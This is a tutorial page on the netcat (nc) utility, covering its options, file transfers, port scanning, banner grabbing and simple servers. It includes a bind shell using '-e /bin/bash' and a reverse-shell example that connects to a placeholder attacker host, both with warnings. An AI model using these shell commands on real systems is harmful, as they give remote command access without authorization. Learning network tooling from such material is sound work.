 ```yaml
---
title: "nc Command"
date: "2025-01-12"
description: "Netcat utility for reading from and writing to network connections using TCP or UDP."
videoId: "RrOHwTQfqjI"
---
```


### Overview

The `nc` (netcat) command is a powerful networking utility in Unix-like operating systems. Often referred to as the "Swiss Army knife" of networking tools, `nc` enables users to read from and write to network connections using TCP or UDP protocols. Its versatility makes it invaluable for tasks such as debugging, file transfers, port scanning, and setting up simple servers or clients.

**Key Features:**
- **Port Scanning**: Identify open ports on target systems.
- **File Transfers**: Send and receive files over the network.
- **Banner Grabbing**: Retrieve service banners to gather information about running applications.
- **Chatting**: Establish simple chat sessions between two hosts.
- **Proxying and Tunneling**: Route traffic through intermediary systems.
- **Scripting and Automation**: Integrate into scripts for automated network tasks.

### Basic Usage

```bash
nc [OPTIONS] [HOST] [PORT]
```

- **HOST**: The target hostname or IP address.
- **PORT**: The target port number.
- **OPTIONS**: Flags that modify the behavior of `nc`.

**Example:**
```bash
nc example.com 80
```
- Connects to `example.com` on port `80` (HTTP).

### Common Options

1. **`-l` (Listen Mode)**
   ```bash
   nc -l 1234
   ```
   - Sets `nc` to listen on port `1234` for incoming connections.

2. **`-v` (Verbose)**
   ```bash
   nc -v example.com 80
   ```
   - Provides detailed information about the connection process.

3. **`-z` (Zero-I/O Mode)**
   ```bash
   nc -zv example.com 20-30
   ```
   - Scans ports `20` to `30` on `example.com` without sending any data.

4. **`-w` (Timeout)**
   ```bash
   nc -w 5 example.com 80
   ```
   - Sets a timeout of `5` seconds for connections.

5. **`-u` (UDP Mode)**
   ```bash
   nc -u example.com 53
   ```
   - Uses UDP instead of the default TCP protocol.

6. **`-e` (Execute Program)**
   ```bash
   nc -l -p 1234 -e /bin/bash
   ```
   - Executes `/bin/bash` upon connection (use with caution due to security risks).

7. **`-n` (Numeric-Only)**
   ```bash
   nc -n example.com 80
   ```
   - Prevents DNS lookups, using only numeric IP addresses.

8. **`-k` (Keep-Open)**
   ```bash
   nc -lk 1234
   ```
   - Keeps the listening port open for multiple connections.

### Examples

1. **Set Up a Simple Chat Server**
   ```bash
   nc -l 1234
   ```
   - Listens on port `1234`. Another user can connect using `nc [server_ip] 1234` to chat.

2. **Transfer a File from Server to Client**
   - **Server Side:**
     ```bash
     nc -l 1234 < file_to_send.txt
     ```
   - **Client Side:**
     ```bash
     nc server_ip 1234 > received_file.txt
     ```

3. **Port Scanning**
   ```bash
   nc -zv example.com 20-25
   ```
   - Scans ports `20` to `25` on `example.com` to check which are open.

4. **Retrieve HTTP Headers (Banner Grabbing)**
   ```bash
   echo -e "HEAD / HTTP/1.1\r\nHost: example.com\r\n\r\n" | nc example.com 80
   ```
   - Sends an HTTP HEAD request to `example.com` and retrieves the response headers.

5. **Create a Simple HTTP Server**
   ```bash
   while true; do echo -e "HTTP/1.1 200 OK\r\n\r\nHello World" | nc -l -p 8080; done
   ```
   - Serves "Hello World" on port `8080` for every incoming HTTP request.

6. **Connect to a UDP Service**
   ```bash
   nc -u example.com 53
   ```
   - Connects to the DNS service on `example.com` using UDP.

7. **Execute a Reverse Shell (For Authorized Use Only)**
   - **Listener:**
     ```bash
     nc -lvp 4444
     ```
   - **Client Side:**
     ```bash
     nc -e /bin/bash attacker_ip 4444
     ```
   - **Warning:** Reverse shells can be exploited for unauthorized access. Use responsibly.

8. **Check if a Port is Open**
   ```bash
   nc -zv example.com 80
   ```
   - Checks if port `80` on `example.com` is open and listening.

9. **Send a Message to a UDP Port**
   ```bash
   echo "Hello UDP" | nc -u example.com 9999
   ```
   - Sends the message "Hello UDP" to port `9999` on `example.com` using UDP.

10. **Pipe Output to `nc` for Real-Time Data Transfer**
    ```bash
    tail -f /var/log/syslog | nc -l 1234
    ```
    - Streams the `syslog` file to any client that connects to port `1234`.

### Tips and Best Practices

- **Security Considerations**: Using `nc` with the `-e` option can create security vulnerabilities. Avoid using it on untrusted networks and ensure proper firewall configurations.
  
- **Use Verbose Mode for Debugging**: The `-v` flag provides detailed connection information, which is helpful for troubleshooting.
  
- **Combine with Other Tools**: Integrate `nc` with tools like `grep`, `awk`, or `sed` for advanced data processing.
  
- **Automate Tasks with Scripts**: Incorporate `nc` into shell scripts to automate file transfers, monitoring, or alerting mechanisms.
  
- **Monitor Network Activity**: Use `nc` to monitor and debug network services by sending custom requests and analyzing responses.
  
- **Stay Updated**: Ensure you have the latest version of `nc` installed to benefit from security patches and feature enhancements.
  
- **Use `nc` Alternatives When Needed**: Tools like `socat` offer more advanced networking capabilities if `nc` doesn't meet your requirements.
  
- **Limit Usage to Trusted Environments**: Only use `nc` in secure and controlled environments to prevent unauthorized access or data leaks.
  
- **Understand Protocols**: Be familiar with TCP and UDP protocols to effectively utilize `nc` for different networking tasks.
  
- **Leverage Help and Man Pages**: Use `man nc` or `nc --help` to explore all available options and understand their functionalities.